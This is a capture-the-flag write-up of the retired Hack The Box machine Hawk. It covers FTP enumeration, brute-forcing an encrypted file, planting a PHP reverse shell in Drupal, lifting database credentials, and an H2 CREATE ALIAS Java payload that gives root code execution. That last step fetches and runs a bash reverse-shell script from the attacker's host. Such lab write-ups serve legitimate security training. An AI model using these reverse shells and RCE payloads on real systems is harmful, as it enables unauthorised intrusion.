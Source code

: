 ```yaml
---
layout: post
title: Hack The Box - Hawk
categories: hack-the-box
image: /hackthebox/hawk/0.png
redirect_from: "/HackTheBox-Hawk/"
---
```


<hr>
#### Hawk has retired and this is my write-up about it.
#### It's a Linux box and it's ip is 10.10.10.102 so let's jump right in !
![](/images/hackthebox/hawk/0.png)
<hr>
### Nmap
#### Starting with a simple nmap scan to scan tor TCP , UDP ports and services.
`nmap -sV -sT -sU 10.10.10.102`
![](/images/hackthebox/hawk/1.png)
<br>
#### We will see that we got FTP on port 21 , SSH on port 22 , HTTP on port 80 running apache server and HTTP on port 8082 running H2 Database HTTP Console.
<br>
<hr>
### FTP
#### Since there's FTP on the box let's check if we can do anonymous login.
![](/images/hackthebox/hawk/2.png)
#### We could login as anonymous and we got a file called : .drupal.txt.enc
#### Since it ends with .enc then it's an encrypted file.
#### Let's run file command against it to get more information.
<br>
```
file drupal.txt.enc
drupal.txt.enc : openssl enc'd data with salted password , base64 encoded
```
#### So base64 encoded ? Let's decode it.
<br>
`base64 -d drupal.txt.enc > drupal_decoded.txt.enc`
![](/images/hackthebox/hawk/3.png)
#### Now the file is ready for bruteforcing.
<br>
<hr>
### Decrypting The File
#### To get the password for decryption we will use a tool called bruteforce-salted-openssl with rockyou.
#### It's already installed on kali but if you're not using kali you can get it from [here](https://github.com/glv2/bruteforce-salted-openssl)
#### Now there's a small problem. We need to specify the right cipher and digest to be able to crack the file so we have to do some guessing.
#### I already cracked it so the cipher is AES-256-CBC and the digest is SHA256.
`bruteforce-salted-openssl -t 50 -f /usr/share/wordlists/rockyou.txt -d sha256 drupal_decoded.txt.enc -1`
#### You may ask yourself why I didn't specify the cipher. I didn't specify it because the tool uses AES-256-CBC by default.
![](/images/hackthebox/hawk/4.png)
#### Great ! We got the password : friends . Let's decrypt the file.
`openssl aes-256-cbc -d -in drupal_decoded.txt.enc -out drupal.txt -k friends`
![](/images/hackthebox/hawk/5.png)
#### Now we have a username : "daniel" and a password : PencilKeybaordScanner123
<br>
<hr>
### Drupal
#### We see in the message that the password is for a portal. But what portal?
#### Let's visit the website on port 80
![](/images/hackthebox/hawk/6.png)
#### We see that it's running drupal CMS 
#### Let's login with the credentials we have.
#### Username daniel didn't work but admin worked and we got in as admin !
![](/images/hackthebox/hawk/7.png)
#### After we enumerate for a while we will see some interesting stuff.
#### The content tab which allows us to add content and the modules tab.
#### If we tried to add content we will get two options : Article or a basic page.
#### We will focus on basic pages for sure but we can only use html , filtered html and plain text .
#### Let's look in the modules tab.
#### We will find a module called php filter which allows us to use php in pages. After we enable it we will get a fourth option : php code
![](/images/hackthebox/hawk/8.png)
#### Great ! Let's get a reverse shell 
`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.xx.xx/9090 0>&1'");`
![](/images/hackthebox/hawk/9.png)
![](/images/hackthebox/hawk/10.png)
#### Let's check our listener.
![](/images/hackthebox/hawk/11.png)
#### bam we got a low privilege shell as www-data !
<br>
<hr>
### Privilege Escalation to daniel
#### So we're now in as www-data let's check sensitive files first.
#### In drupal 7 documentation [This section](https://www.drupal.org/docs/7/install/step-3-create-settingsphp-and-the-files-directory) it's mentioned that settings.php contains where the database is located , how to access it and the credentials to access it. So this file has some sensitive information let's check that out.
![](/images/hackthebox/hawk/12.png)
![](/images/hackthebox/hawk/13.png)
#### We got a password : drupal4hawk , Let's try ssh
![](/images/hackthebox/hawk/14.png)
#### We got in ! But when we login we get a python interpreter. We will get a shell with pty
<br>
```
import pty
pty.spawn("/bin/sh")
```
![](/images/hackthebox/hawk/15.png)
#### And we got user ! :D
<br>
<hr>
### Accessing H2 Database
#### Now with some regular enumeration if we check out root processes we will see those 2 processes.
![](/images/hackthebox/hawk/16.png)
#### Sounds familiar ? Yup the H2 Database.
#### If we return to our nmap scan we will see port 8082 running H2 Database HTTP Console.
![](/images/hackthebox/hawk/1.png)
#### Now we know that it's running as root so let's try to access that.
![](/images/hackthebox/hawk/17.png)
#### Remote connection is disabled. This means that we can only connect locally.
#### To bypass that we will use ssh tunneling.
#### And if you don't know what ssh tunneling is ... simply we will forward the connection from the box to our machine. This means that the H2 console will be accessed locally from the box then that connection will be forwarded to us.
`ssh -L 8080:127.0.0.1:8082 daniel@10.10.10.102`
![](/images/hackthebox/hawk/18.png)
#### Now if we visit our localhost on port 8080 we will get the login page.
#### By default it doesn't have a password so we can access the console without credentials but when we login without credentials it gives an error.
![](/images/hackthebox/hawk/19.png)
#### Let's try changing the JDBC URL to something we know that it exists. /root
![](/images/hackthebox/hawk/20.png)
#### It worked . Now we have access to the console.
![](/images/hackthebox/hawk/21.png)
<br>
<hr>
### Abusing H2 Database ALIAS and Privilege Escalation to root
#### Basically the [CREATE ALIAS](http://www.h2database.com/html/grammar.html#create_alias) method creates a function that executes java code.
#### Since we can execute java code then we can do anything. So we will create a function that executes system commands then we will get a shell.
#### First we will create ALIAS called SHELLEXEC. The payload will be like this :
<br>
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
![](/images/hackthebox/hawk/22.png)
#### Then we will execute system commands by calling the function that we created. Let's execute whoami.
`call SHELLEXEC("whoami")`

![](/images/hackthebox/hawk/23.png)
#### And we see root :D
<br>
<br>
#### *NOTE: That H2 Database ALIAS exploit is not mine. Credits go to the creator . check his write-up about the exploit [here](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)*
<br>
<br>
<br>
#### now since we can execute system commands it's over ! We can get a root shell.
#### But We can't write a shell command and execute it right away it won't work so instead of that we can write our shell in a .sh file then upload it and execute it.
#### Another way is to use msfvenom but it's not needed here because the exploit is simple.
#### First we will create the shell file.
`bash -i >& /dev/tcp/10.10.xx.xx/1234 0>&1 > shell`
#### Then we will set up a HTTP server with python to host the shell.
`python -m SimpleHTTPServer 7777`
![](/images/hackthebox/hawk/24.png)
#### Now we will use wget to get the shell file on the box.
`call SHELLEXEC("wget http://10.10.xx.xx:7777/shell")`
![](/images/hackthebox/hawk/25.png)
![](/images/hackthebox/hawk/26.png)
#### We will make the file executable. 
`call SHELLEXEC("chmod +x shell")`
![](/images/hackthebox/hawk/27.png)
#### Then we will rename it to shell.sh
`call SHELLEXEC("mv shell shell.sh")`
![](/images/hackthebox/hawk/28.png)
#### And finally we execute it.
`call SHELLEXEC("bash shell.sh")`
![](/images/hackthebox/hawk/29.png)
#### We don't get a response which is a good sign. Let's check our listener.
![](/images/hackthebox/hawk/30.png)
#### And we get a shell as root ! :D
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Jerry](/hack-the-box/jerry/)
#### Next Hack The Box write-up : [Hack The Box - Active](/hack-the-box/active/)
<hr>
